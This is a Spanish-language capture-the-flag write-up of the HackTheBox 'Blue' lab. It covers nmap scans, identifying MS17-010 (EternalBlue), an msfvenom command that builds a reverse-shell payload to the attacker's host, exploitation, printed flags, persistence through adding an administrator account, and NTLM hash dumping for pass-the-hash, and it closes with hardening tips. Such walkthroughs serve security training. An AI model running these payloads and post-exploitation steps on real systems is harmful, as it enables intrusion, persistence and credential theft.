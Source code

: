 ```yaml
---
title: HackTheBox Blue
date: 2021-08-28 12:00:00 -0400
image:
  src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/banner.jpeg
  height: 1100
  width: 500
categories: [HTB Writeups, Windows Easy]
tags: [eternalblue, metasploit, smb]
---
```



## Enumeración

**System IP: 10.10.10.40**

### Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![Matriz de la maquina](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/matrix.png)


**Enumeración de servicios**

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|-----------------------------
10.10.10.40       | **TCP**: 135,139,445,49154 

**Nmap Scan Resultados:**

Usando el siguiente comando para enumerar las versiones y servicios que corren en cada puerto luego de hacer un escaneo de puertos abiertos.

```bash
nmap -sC -sV -p135,139,445,49154 10.10.10.40 -Pn  
```

Nos arroja este resultado:

```bash
nmap -sC -sV -p135,139,445,49154 10.10.10.40 -Pn                                                                                                               
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-01 15:02 EDT
Nmap scan report for 10.10.10.40
Host is up (0.17s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49154/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m38s, deviation: 34m35s, median: 19s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-01T20:03:27+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-01T19:03:24
|_  start_date: 2021-08-01T16:10:04

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.87 seconds

```
**Enumerando vulnerabilidades con nmap**

Usando el siguiente comando para enumerar las vulnerabilidades más comunes que presentan cada servicio, si es que existen.

```bash
nmap --script vuln 10.10.10.40
```

Nos arroja este resultado:

```bash                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-01 16:24 EDT
Nmap scan report for 10.10.10.40
Host is up (0.29s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 147.18 seconds

```

## Identificación de vulnerabilidades

Explicación de vulnerabilidad:

Segun los resultados de nmap podemos observar que es vulnerable a ejecución remota de codigo, revisando el cve en google encontramos el exploit para esta vulnerabilidad.

Severidad:

![Escala de severidad](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/sever.png)

Codigo de la prueba de concepto:

A continuación se presente el codigo de la prueba de concepto: 

![Codigo de la prueba de concepto](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/web.png)

## Acceso al sistema

Para poder acceder al sistema elaboramos un payload que se ejecutará en la maquina victima, lo elaboramos con el siguiente comando con msfvenom y lo guardamos con el nombre shell.exe.

```bash
msfvenom -p windows/reverse_shell_tcp lhost=tun0 lport=443 -f exe > shell.exe
```


![Cambiando los comandos a ejecutar](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/msf.png)


Modificando el exploit para crear un usuario guest.


![Modificando el usuario y contraseña](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/guest.png)


Estableciendo los comandos a ejecutar, en este caso enviamos el archivo compilado en formato .exe y ejecutamos el payload generado en la maquina victima.



![Comandos que permiten el envio del payload](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/eternal.png)



Luego de haber ejecutaco el exploit obtenemos una shell con maximos privilegios (nt/ authority system), entonces podemos observar el user.txt y root.txt.



![Prueba de acceso como administrador](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/auto.png)



**Prueba de obtención del user.txt**

flag: 4c546aea7dbee75cbd71de245c8deea9



![Prueba del User.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/usertxt.png)



## Escalamiento de privilegios

Al haber obtenido acceso como usuario de maximos privilegios con el exploit ejecutado, esta fase se omitirá

**Prueba de obtención del root.txt**

flag: ff548eb71e920ff6c08843ce9df4e717



![Prueba del root.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/roottxt.png)



## Tecnicas Post-explotación

**Agregando usuarios con permisos de administrador**

+ Podemos crear usuarios con permisos de administrador con el siguiente comando:

```bash
net user usuario 12345 /add
```

  y asignarlos a un grupo el cual sería administrador con el siguiente comando:

```bash
net localgroup administrator usuario /add
```


![Creando usuario de persistencia](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/ADD.png)



**Dumpeando los hashes de los usuarios para acceder al sistema posteriormente con la tecnica de passthehash.**

+ Una vez con el acceso de administrador podemos modificar el UAC para obtener los hashes ntlm de los administradores con crackmapexec y así poder logearnos como administradores solo con el ntlm hash.



![Modificando el token policie](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/token.png)





![Dumpeando los hashes de los usuarios](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/cme.png)



## Tecnicas de Hardening

+ Mantener siempre el software y las ventanas actualizadas con la última versión, las correcciones y los parches para reducir el riesgo de ser comprometido por tales vulnerabilidades.

+ Deshabilitar el servicio SMBV1 del puerto 445 de la maquina o establecer reglas de firewalls para ocultarlo.

Gracias por leer, Happy hacking and always try harder!